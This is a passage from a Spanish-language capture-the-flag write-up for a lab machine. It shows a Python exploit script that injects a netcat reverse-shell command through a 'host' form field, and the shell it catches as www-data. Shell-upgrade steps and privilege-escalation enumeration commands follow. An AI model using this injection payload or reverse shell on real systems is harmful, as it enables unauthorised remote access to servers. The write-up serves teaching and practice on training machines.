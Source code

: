 ```python
        'host': '10.10.14.7; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.7 443 >/tmp/f'
    }

    r = s.post(shell_url, data=post_data)

if __name__ == '__main__':
    
    try:
        threading.Thread(target=makeRequest, args=()).start()
    except Exception as e:
        log.error(str(e))

    shell = listen(lport, timeout=20).wait_for_connection()
    shell.interactive()
```

Si lanzamos en script ganamos accesso al systema.

```bash
whoami

www-data
```

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

Tenemos que ver si tenemos que hacer un user pivoting pero como ya tenemos accesso a la flag, no es necessario.
## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
cd /root
id
sudo -l
uname -a
lsb_release -a
find \-perm -4000 2>/dev/null
```
